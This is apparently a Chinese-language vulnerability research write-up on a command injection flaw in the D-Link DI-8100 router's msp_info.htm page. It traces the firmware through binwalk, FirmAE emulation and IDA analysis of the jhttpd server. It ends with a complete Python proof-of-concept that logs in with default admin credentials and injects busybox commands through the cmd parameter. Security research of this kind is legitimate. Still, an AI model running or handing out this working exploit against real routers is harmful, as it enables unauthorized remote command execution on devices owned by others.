



# DI8100_conmand_injection

# binwalk
```
 sudo ./run.sh -d D-Link ~/Desktop/DI_8100-16.07.26A1.trx
```


mips-32-little

---
# 启动项
firmAE中看一下启动项


web程序应该是jhttpd起的。


锁定sbin/rc ，ida查看一下。



果然是rc里起的服务。

而rc使用



系统启动过程中会执行名为 init 的程序。这个程序通常位于 /sbin/init 或 /bin/init，这里我们做了一个软链接，所以就会启动rc程序。

---


# 漏洞描述
Description
A vulnerability, which was classified as critical, has been found in D-Link DI-8100 16.07. This issue affects the function msp_info_htm of the file msp_info.htm. The manipulation of the argument cmd leads to command injection. The attack may be initiated remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-273521 was assigned to this vulnerability.


msp_info.htm 页面中   cmd参数造成命令执行。

没有这个网页，但jhttpd中有，我们去查看一下。


通过定位字符串，找到了处理函数msp_info_htm


之后这里造成了命名执行

---
接下来我们来构造调用链。


访问目标页面，显示没有flag.


在这个函数开头，获取了flag的值。
这里根据flag的值，会执行不同命令。
当flag=cmd 时会执行到漏洞点。


httpd_get_parm（）应该是用get的方式获取参数。


程序继续往下执行了。
但这里显示not cmd 

系统执行到了这里。我们添加cmd参数 


程序执行后，返回变化了。
查看no order,please help<br>字符串，发现jhttpd中没有。

grep一下 ，发现是在usr/sbin/wys中的字符串。


那这就说明，这串命令wys %s > /tmp/msp.info 2>&1已经成功执行了。

这里应该是无回显，我们换个命令执行试试。


这里应该是执行了。


命令执行成功。

DI81000_conmand_injection.py
```
import requests


cmd="ls"

session = requests.session()

burp0_url = "http://192.168.0.1:80/login.cgi"
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://192.168.0.1", "Connection": "close", "Referer": "http://192.168.0.1/login.html", "Upgrade-Insecure-Requests": "1"}
burp0_data = {"user": "admin", "password": "admin"}
session.post(burp0_url, headers=burp0_headers, data=burp0_data)


burp1_url = "http://192.168.0.1:80/msp_info.htm?flag=cmd&cmd=|busybox%20"+cmd
burp1_cookies = {"wys_userid": "admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"}
burp1_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
response=session.get(burp1_url, headers=burp1_headers, cookies=burp1_cookies)


print(response.text)


```


